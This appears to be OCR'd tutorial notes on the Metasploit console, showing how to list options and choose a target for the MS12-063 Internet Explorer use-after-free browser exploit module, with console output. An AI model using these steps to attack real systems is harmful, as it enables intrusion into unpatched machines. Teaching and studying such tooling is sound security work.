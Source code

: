 
## Selecting a Target
- Use the `set target <index no.>` command to choose a specific target.
- Example:

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > options

Module options (exploit/windows/browser/ie_execcommand_uaf):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  false            no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7
```

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
target => 6
```

---

## Example Exploit: MS12-063 (Microsoft IE Use-After-Free)
- Target selection options:
  - IE 7 on Windows XP SP3
  - IE 8 on Windows XP SP3
  - IE 7 on Windows Vista
  - IE 8 on Windows Vista
  - IE 8 on Windows 7
  - IE 9 on Windows 7
- Use `info` command to understand module functionality and target versions.

---
